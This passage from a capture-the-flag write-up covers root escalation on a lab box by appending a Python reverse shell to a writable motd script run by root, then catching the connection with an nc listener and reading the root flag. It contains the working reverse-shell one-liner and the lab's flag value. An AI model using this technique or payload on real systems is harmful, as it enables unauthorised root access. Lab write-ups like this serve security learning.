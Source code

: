 The motd service (Message of the Day) is used to display messages when a user connects, and will be run by `root`. As we have write access, we can add a reverse shell command:

~~~
james@osboxes:~$ cat >> /etc/update-motd.d/00-header << EOF
> /usr/bin/python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.50.72",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);'
> EOF
~~~

## Reverse shell and root flag

Now, start a listener (`nc -nlvp 4444`), disconnect from the SSH session and reconnect. A root shell is spawned to the listener window.

~~~
┌──(kali㉿kali)-[/data/Debug/files]
└─$ nc -nlvp 4444 
listening on [any] 4444 ...
connect to [10.8.50.72] from (UNKNOWN) [10.10.196.165] 59084
bash: cannot set terminal process group (1373): Inappropriate ioctl for device
bash: no job control in this shell
root@osboxes:/# cat /root/root.txt
cat /root/root.txt
3c8c3d0fe758c320d158e32f68fabf4b
~~~

Root flag: `3c8c3d0fe758c320d158e32f68fabf4b`
